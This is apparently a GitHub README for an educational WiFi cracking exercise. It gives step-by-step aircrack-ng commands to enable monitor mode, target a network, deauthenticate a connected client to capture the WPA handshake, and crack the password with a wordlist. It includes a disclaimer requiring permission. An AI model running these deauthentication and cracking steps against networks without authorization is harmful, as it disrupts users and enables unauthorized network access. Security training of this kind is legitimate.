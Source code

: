 # WiFi Crack Exercise

This document outlines the process for conducting a WiFi cracking exercise, designed for educational purposes to understand network security and the importance of using strong, secure WiFi passwords. 

## Disclaimer

This exercise is intended for educational purposes only. Performing network attacks without explicit permission is illegal and unethical. Use this information responsibly and always with permission from the network owner.

## Prerequisites

- A wireless network adapter that supports monitor mode and packet injection.
- Kali Linux or any Linux distribution with the necessary tools installed (aircrack-ng suite, iwconfig).

## Steps to Perform WiFi Cracking

1. **Prepare the Environment**:
    - Ensure your wireless adapter is connected and recognized by your system.
    - Use `iwconfig` to check if your wireless adapter is listed.

2. **Kill Conflicting Processes**:
    - Run `sudo airmon-ng check kill` to stop services that might interfere with the WiFi cracking process.

3. **Enable Monitor Mode**:
    - Start monitor mode on your wireless adapter with `sudo airmon-ng start <your_interface_name>`.

4. **Monitor WiFi Networks**:
    - Use `sudo airodump-ng <your_interface_name_in_monitor_mode>` to list all available WiFi networks.

5. **Target Specific Network**:
    - Target a specific network using `sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file_name> <interface>`.

6. **Deauthenticate a Connected Client**:
    - Use `sudo aireplay-ng --deauth 5 -a <BSSID> -c <client_MAC> <interface>` to deauthenticate a client, forcing them to reconnect and capture the handshake.

7. **Crack WiFi Password**:
    - Use `aircrack-ng <.cap_file> -w <wordlist>` to attempt cracking the WiFi password with the captured handshake.

8. **Restart Network Manager** (if needed):
    - Once done, you may need to restart your network services using `sudo systemctl restart NetworkManager`.

## Wordlist

It's crucial to have a comprehensive wordlist for the password cracking process. This exercise uses `dates_1920_2024_wordlist.txt` as an example.

## Contribution

Contributions to improve this exercise or the documentation are welcome. Ensure you follow ethical guidelines and legal requirements when contributing.

## Conclusion

Understanding the vulnerabilities in WiFi networks is crucial for creating secure networks. This exercise provides hands-on experience with tools and techniques for WiFi security analysis.
